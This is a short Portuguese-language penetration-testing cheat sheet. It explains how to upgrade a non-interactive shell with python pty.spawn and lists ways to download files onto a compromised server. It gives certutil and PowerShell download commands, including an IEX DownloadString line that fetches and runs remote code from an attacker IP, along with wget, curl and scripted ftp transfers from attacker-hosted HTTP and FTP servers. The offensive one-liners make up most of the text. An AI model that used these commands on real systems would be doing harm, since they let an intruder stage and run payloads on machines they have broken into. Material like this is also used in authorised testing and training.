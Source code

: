 
## Shell Interativa x Shell Não interativa
A shell interativa ela responde aos comandos como uma conexão FTP, uma tentativa de mudar a senha de usuário, enquanto a shell não interativa, apenas serve para comandos sem interação do sistema, como ls -la, id, etc. Porém, caso o servidor possua python, é possível transformar uma shell não interativa em uma shell interativa através do comando: 

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Formas de baixar arquivos no servidor

As formas se baseiam em você subir um servidor com algum protocolo para fazer a transferência de arquivos, e na shell do servidor, utilizar para baixar o arquivo

### HTTP

- Apache: service apache2 start (/var/www/html/file.exe)

- Python: python -m SimpleHTTPServer 80

- Python3: python3 -m http.server 80

#### Windows

- certutil.exe -urlcache -f http://172.20.1.6/file.exe file.exe

- powershell.exe wget http://172.20.1.6/fileexe -OutFile file.exe

- powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://172.20.1.6/file.exe','file.exe')

- powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://172.20.1.6/poc.txt')

#### Linux

 - wget http://172.16.1.6/file.exe -O /tmp/file.exe

- curl http://172.20.1.6/file.exe -o file.exe

### FTP

- pip install pyftpdlib

- python -m pyftpdlib -p 21 --write

#### Windows

- echo open 192.168.0.16 > ftp.txt
- echo USER anonymous >> ftp.txt
- echo PASS anonymous >> ftp.txt
- echo bin >> ftp.txt
- echo GET file.exe >> ftp.txt
- echo QUIT >> ftp.txt
- ftp -v -n -s:ftp.txt
